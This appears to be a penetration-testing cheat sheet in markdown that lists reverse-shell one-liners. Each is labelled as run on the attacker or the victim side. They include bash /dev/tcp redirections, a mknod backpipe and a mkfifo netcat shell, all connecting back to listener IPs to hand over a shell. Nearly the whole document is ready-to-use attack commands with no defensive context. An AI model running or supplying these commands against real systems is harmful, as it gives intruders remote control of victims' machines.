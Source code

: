 # Bash

## Bash Reverse

```text
nc -l -p 8080 -vvv     →  attacker

exec 5<>/dev/tcp/[ip]/8080 → host
cat <&5 | while read line; do $line 2>&5 >&5; done → host
```

## mknod Reverse Shell

```text
nc -nvlp 6666 → attacker

mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 192.168.56.1 6666 1> /tmp/backpipe → victim
```

## bash reverse \( nc -nvlp 8080\)

```text
bash -i >& /dev/tcp/192.168.56.1/8080 0>&1  

or

0<&196;exec 196<>/dev/tcp/10.0.0.1/666; sh <&196 >&196 2>&196

or

bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'
```

## ​​for bsd version of netcat without -e option

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 0.0.0.0 5555 >/tmp/f
```

